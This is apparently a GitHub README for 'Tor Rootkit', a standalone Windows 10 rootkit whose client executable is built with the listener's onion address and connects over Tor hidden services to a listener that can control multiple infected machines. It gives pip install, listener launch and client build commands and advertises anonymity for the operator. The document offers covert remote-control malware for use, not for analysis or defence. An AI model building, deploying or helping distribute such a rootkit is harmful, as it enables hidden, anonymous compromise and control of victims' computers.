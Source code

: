 # Tor Rootkit
A python3 standalone Windows 10 Rootkit. The networking works over tor hidden services.
The exe Rootkit-File contains the tor expert bundle, so no staged payload is needed.

## Installation
First clone the git repository and change directory into the repo.

### Listener
Install all dependencies:
```bash
pip3 install -r listener/requirements.txt
```

After that the listener can be run with:
```bash
python3 listener/listener.py <listen-port> <forward-port>
```
Or:
```bash
./listener/listener.py <listen-port> <forward-port>
```

### Client
Note: The compilation of the Rootkit client ONLY works on Windows.

Install all dependencies:
```bash
pip3 install -r client\requirements.txt
```
Once the dependencies are installed you can build the executable file:
(Call build.py with the onion address and port of the listener.)
```bash
python client\build.py <onion> <port>
```
The .exe file should now be at:
```bash
.\client\dist\client.exe
```
Tor run the client just execute client.exe:
```bash
.\client.exe
```
Or run the client with the python interpreter:
```bash
python client.py
```

## Features
- Standalone executable, including python interpreter and tor expert bundle (~13MB)
- the whole communication works over tor hidden services which guarantees some degree of anonymity
- Listener can handle multiple clients
